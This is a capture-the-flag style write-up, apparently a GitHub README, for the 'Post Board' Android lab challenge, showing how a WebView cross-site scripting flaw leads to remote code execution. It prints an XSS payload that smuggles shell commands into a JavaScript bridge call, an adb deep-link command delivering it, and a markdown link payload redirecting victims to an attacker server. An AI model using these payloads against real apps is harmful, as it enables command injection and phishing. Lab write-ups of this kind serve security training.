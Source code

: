 # Writeup for Post Board challenge.

>here's how to use the scripts only as proof of concept.

Check the full Writeup at my blog --> [Post Board](https://blog.parad0x.vip/blog/2024/10/01/PostBoard1.html)
---

## Objective
This challenge is designed to delve into the complexities of Android's WebView component, exploiting a Cross-Site Scripting (XSS) vulnerability to achieve Remote Code Execution (RCE). It's a great opportunity to engage with Android application security focusing on WebView security issues.

## RCE
To achieve the RCE first we need to create a payload
using the XSS vulnerability and encode in base64.

```sh
echo "<img src=\"x\" \
onerror=\"WebAppInterface.postCowsayMessage('Moooo;whoami;pwd;date') \
\">"|base64
```

Then send it through the deep link.

```sh
adb shell am start -a android.intent.action.VIEW \ 
-n com.mobilehackinglab.postboard/.MainActivity -d \ 
"postboard://postmessage/PGltZyBzcmM9IngiIG9uZXJyb3I9IldlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgnTW9vb287d2hvYW1pO3B3ZDtkYXRlJykgIj4K"
```
<img width="400" src="https://github.com/user-attachments/assets/6c95881a-fd1d-405b-893e-bcd023958e0d"/>


## Bonus XSS on Chrome Client 
Sending a malicious link to the application it's possible to redirect the victim to my evil website. The app will convert my markdown in a clickable link then my evil website will load.

Payload: `[Innocent Link](http://{YOUR_SERVER_IP:PORT}/)` 

<img weight="300" width="300" src="https://github.com/user-attachments/assets/b2be9b70-a5e5-46fc-b8c2-37b5a7d4653c"/>


## Conclusion

On my blog, I'll cover step by step to achieve the RCE and exploit the webview weakness.
